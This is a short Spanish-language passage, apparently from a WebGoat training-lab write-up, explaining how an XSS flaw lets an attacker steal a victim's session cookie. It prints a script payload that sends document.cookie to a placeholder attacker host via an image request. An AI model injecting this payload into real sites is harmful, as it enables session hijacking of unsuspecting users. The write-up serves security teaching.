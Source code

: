 Se inyecta el siguiente payload. 
```javascript
<script>new Image().src="http://[ATTACK]/bogus.php?session="+document.cookie;</script>
``` 
El navegador, al interpretar el código **JS**, intenta realizar una conexión a este origen de imagen concatenandole la **COOKIE** de la victima: 

![Robo](/assets/webgoat/A7/01_robo_cookie.png)
_Robo de Cookie_

De forma paralela, el atacante esta a la espera de una conexión a dicho servicio ``bogus.php`` y es allí donde captura la **cookie** de la victima: 

![Captura](/assets/webgoat/A7/02_captura_cookie.png)
_Captura de la Cookie_

Este es un ejemplo simple de una de las muchas maneras en que se puede capturar la Cookie, explotando un **XSS**. 
